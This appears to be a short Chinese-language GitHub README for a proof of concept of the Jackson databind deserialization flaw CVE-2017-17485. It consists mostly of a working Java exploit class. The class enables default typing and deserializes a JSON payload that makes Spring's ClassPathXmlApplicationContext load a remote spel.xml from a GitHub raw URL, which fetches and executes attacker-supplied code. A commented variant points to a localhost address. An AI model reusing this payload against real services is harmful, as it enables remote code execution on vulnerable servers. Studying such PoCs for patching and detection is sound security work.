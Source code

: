 # Jackson 反序列化

本war包基于廖师傅 https://github.com/shengqi158/Jackson-databind-RCE-PoC 的改造

基友的hucheat https://github.com/hucheat/vulns/tree/master/cve-2017-17485_web_vuln

## 验证代码

```
package jackson;

import java.io.IOException;

import com.fasterxml.jackson.databind.ObjectMapper;

/**
 * Jackson CVE-2017-17485
 * 2018-01-22
 * @author Bearcat
 *
 */
public class poc {
	public static void payload() {
		/*
		 * 假设是攻击者的恶意JSON请求数据
		 * ["org.springframework.context.support.ClassPathXmlApplicationContext", "http://127.0.0.1/spel.xml"]
		 * 
		 */
		String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", " +
	                "\"https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/spel.xml\"]\n";
		System.out.println(payload);
		ObjectMapper mapper = new ObjectMapper();
		mapper.enableDefaultTyping();
		try {
			mapper.readValue(payload, Object.class);
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
	
	public static void main(String args[]) {
		payload();
	}
}
```

![payload](https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/img/1.jpg)
